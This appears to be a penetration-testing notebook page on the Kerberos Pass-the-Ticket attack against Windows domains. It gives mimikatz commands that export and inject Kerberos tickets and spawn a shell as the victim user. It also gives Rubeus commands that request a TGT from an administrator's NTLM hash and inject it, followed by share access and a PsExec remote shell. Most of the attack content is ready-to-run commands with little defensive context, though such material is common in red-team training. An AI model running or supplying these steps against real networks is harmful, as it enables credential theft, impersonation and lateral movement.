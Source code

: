 # Pass The Ticket

## Pass The Ticket

In a pass the ticket attack access is gained to a resource of a system (for example the administrative shares) using a kerberos ticket that was generated or obtained from a compromised machine (TGT or TGS)

{% hint style="info" %}
PtT affects all windows platforms relying on kerberos.
{% endhint %}

run these in mimikatz:

```
kerberos::list
kerberos::list /export
```

we have the tickets that were saved inside the directory where we had the mimikatz executable.

![](<../../../../.gitbook/assets/image (198).png>)

We go back to the mimikatz terminal. Here, we pass the ticket with the help of ptt module inside the Kerberos module followed by the name of the ticket that we want to pass.to perform the actions as the user that we passed the ticket for we decided to get a cmd as that user. This can be accomplished using the misc::cmd command as shown in the image given below.

```
kerberos::ptt ticket.kirbi
misc::cmd
```

![](<../../../../.gitbook/assets/image (195).png>)

## Rubeus

[rubeus](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries) is a C# toolset for raw Kerberos interaction and abuses.

we will use extract the tickets using Rubeus. This can be done with the help of the asktgt module. Although it is not so sneaky method it gets the work done. We need the domain name, User, Password Hash. When used normally will give the base64 encoded TGT ticket. But Let’s Pass the Ticket as well in the same step

```
Rubeus.exe asktgt /domain:ignite.local /user:Administrator /rc4: 32196b56ffe6f45e294117b91a83bf38 /ptt
```

or pass the ticket with kirbi file:

```
Rubeus.exe ptt /ticket:ticket.kirbi
```

now we have the ticket for user administrator and we can access shares:

```
dir \\overloadDC\\secret_shares
```

or get shell access:

```
PsExec.exe \\192.168.1.105 cmd.exe
```
